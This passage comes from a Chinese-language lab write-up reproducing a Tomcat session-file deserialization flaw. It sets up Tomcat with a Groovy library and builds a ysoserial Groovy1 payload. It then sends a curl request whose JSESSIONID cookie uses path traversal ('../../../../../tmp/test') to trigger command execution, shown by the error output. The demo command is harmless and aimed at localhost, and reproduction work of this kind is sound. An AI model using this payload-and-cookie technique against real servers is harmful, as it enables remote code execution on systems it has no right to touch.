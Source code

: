 4.  下载 groovy-2.3.9.jar

   ```
 wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar
   ```

5.  将 groovy-2.3.9.jar 放入 `/usr/local/tomcat/apache-tomcat-10.0.0-M4/lib` 下
```
 cp groovy-2.3.9.jar  /usr/local/tomcat/apache-tomcat-10.0.0-M4/lib/
```

6.  启动 Tomcat
```
 bash /usr/local/tomcat/apache-tomcat-10.0.0-M4/bin/catalina.sh start
```

## 漏洞复现

目标是在服务器上执行命令 `touch /tmp/1234.txt`，
**假设 `.session` 文件已经被上传到服务器的已知位置**。

1、下载 ysoserial

 ```
wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
 ```

2、生成java反序列化 payload

```
java -jar ysoserial-master-SNAPSHOT.jar Groovy1  "touch /tmp/1234.txt" > /tmp/test.session
```

3、发起恶意请求

```
curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'
```

4、请求的执行结果

```
<!doctype html><html lang="zh"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> 异常报告</p><p><b>消息</b> java.lang.UNIXProcess cannot be cast to java.util.Set</p><p><b>描述</b> 服务器遇到一个意外的情况，阻止它完成请求。</p><p><b>Exception</b></p><pre>java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.util.Set
	com.sun.proxy.$Proxy8.entrySet(Unknown Source)
	sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:452)
	sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	...
	...
```

虽然有报错但是反序列化已经执行了
